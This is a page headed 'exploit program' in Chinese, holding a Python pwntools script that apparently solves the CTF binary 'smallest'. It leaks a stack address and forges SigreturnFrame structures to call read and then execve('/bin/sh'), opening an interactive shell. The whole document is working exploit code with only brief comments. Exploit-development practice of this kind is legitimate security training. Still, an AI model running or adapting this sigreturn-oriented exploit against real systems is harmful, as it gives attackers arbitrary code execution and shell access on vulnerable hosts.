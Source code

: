 **漏洞利用程序**

```python
from pwn import *
from LibcSearcher import *
small = ELF('./smallest')
if args['REMOTE']:
    sh = remote('127.0.0.1', 7777)
else:
    sh = process('./smallest')
context.arch = 'amd64'
context.log_level = 'debug'
syscall_ret = 0x00000000004000BE
start_addr = 0x00000000004000B0
# set start addr three times
payload = p64(start_addr) * 3
sh.send(payload)

# modify the return addr to start_addr+3
# so that skip the xor rax,rax; then the rax=1
# get stack addr
sh.send('\xb3')
stack_addr = u64(sh.recv()[8:16])
log.success('leak stack addr :' + hex(stack_addr))

# make the rsp point to stack_addr
# the frame is read(0,stack_addr,0x400)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = stack_addr
sigframe.rdx = 0x400
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
payload = p64(start_addr) + 'a' * 8 + str(sigframe)
sh.send(payload)

# set rax=15 and call sigreturn
sigreturn = p64(syscall_ret) + 'b' * 7
sh.send(sigreturn)

# call execv("/bin/sh",0,0)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = stack_addr + 0x120  # "/bin/sh" 's addr
sigframe.rsi = 0x0
sigframe.rdx = 0x0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret

frame_payload = p64(start_addr) + 'b' * 8 + str(sigframe)
print len(frame_payload)
payload = frame_payload + (0x120 - len(frame_payload)) * '\x00' + '/bin/sh\x00'
sh.send(payload)
sh.send(sigreturn)
sh.interactive()
```
